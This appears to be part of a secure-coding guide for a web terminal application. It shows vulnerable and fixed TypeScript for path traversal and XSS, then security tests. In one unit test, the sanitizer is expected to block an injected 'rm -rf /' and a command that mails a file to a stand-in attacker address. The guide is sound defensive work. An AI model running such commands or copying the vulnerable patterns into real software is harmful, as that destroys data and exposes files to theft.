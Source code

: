 ### Path Traversal

**Vulnerable:**
```typescript
const file = req.params.file;
fs.readFile(`/data/${file}`); // Could access any file!
```

**Secure:**
```typescript
const safePath = sanitizePath(req.params.file, '/data');
fs.readFile(safePath);
```

### XSS in Terminal Output

**Vulnerable:**
```typescript
element.innerHTML = terminalOutput; // Could execute scripts!
```

**Secure:**
```typescript
element.textContent = terminalOutput; // Text only
// OR
element.innerHTML = escapeHtml(terminalOutput);
```

## 9. Security Testing

### Unit Tests

```typescript
describe('CommandSanitizer', () => {
  test('blocks command injection', () => {
    const dangerous = [
      'ls; rm -rf /',
      'echo $(whoami)',
      'cat file.txt | mail attacker@evil.com'
    ];
    
    dangerous.forEach(cmd => {
      expect(sanitizer.sanitize(cmd)).toBe(false);
    });
  });
});
```

### Integration Tests

```typescript
test('WebSocket rejects malformed messages', async () => {
  const ws = new WebSocket('ws://localhost:3000');
  
  ws.send(JSON.stringify({
    type: 'INVALID_TYPE',
    sessionId: 'not-a-uuid'
  }));
  
  const response = await waitForMessage(ws);
  expect(response.type).toBe('error');
  expect(response.code).toBe('INVALID_MESSAGE');
});
```
